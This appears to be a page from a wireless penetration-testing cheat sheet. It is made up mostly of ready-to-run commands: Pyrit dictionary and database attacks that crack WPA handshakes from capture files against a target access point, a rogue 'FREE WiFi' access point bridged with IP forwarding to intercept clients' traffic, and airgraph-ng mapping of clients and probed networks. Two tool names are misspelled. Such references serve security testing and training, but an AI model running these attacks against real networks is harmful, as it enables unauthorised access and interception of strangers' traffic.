 ## **Pyrit**

* [https://github.com/JPaulMora/Pyrit](https://github.com/JPaulMora/Pyrit)

### **pyrit DB attacks**

```bash
pyrit eval
pyrit -i $wordlist import_passwords
pyrit -e $essid create_essid
pyrit batch
pyrit batch -r $capturefile -b $AP_MAC attack_db
```

**pyrit strip**

```bash
pyrit -r $capturefile -o $outfile strip
```

**pyrit dictionary attack**

```bash
pyrit -r $capturefile -i $wordlist -b $AP_MAC attack_passthrough
```

## **MISC**

### **Bridge-control man in the middle**

```bash
airebase-ng -c 3 -e “FREE WiFi” wlan0mon
brctl addbr hacker(interface name)
brctl addif hacker eth0
brctl addif hacker at0
ifconfig eth0 0.0.0.0 up
ifconfig at0 0.0.0.0 up
ifconfig hacker 192.168.1.8 up
ifconfig hacker
echo 1 > /proc/sys/net/ipv4/ip_forward
```

### **airgraph-ng**

```bash
# $infile should be a .csv from aerodump-ng, $outfile should be a .png
airgraph-ng -i $infile.csv -o $outfile.png -g CAPR 
eog $outfile.png
airgraph-ng -i $infile.csv -o $outfile.png -g CPG 
eog $outfile.png
```

* **CAPR**: Client to AP Relationship. This shows all the clients attached to a particular AP.
* **CPG**: Common Probe Graph. This will show all probed SSID by clients.
* [https://www.aircrack-ng.org/doku.php?id=airgraph-ng](https://www.aircrack-ng.org/doku.php?id=airgraph-ng)

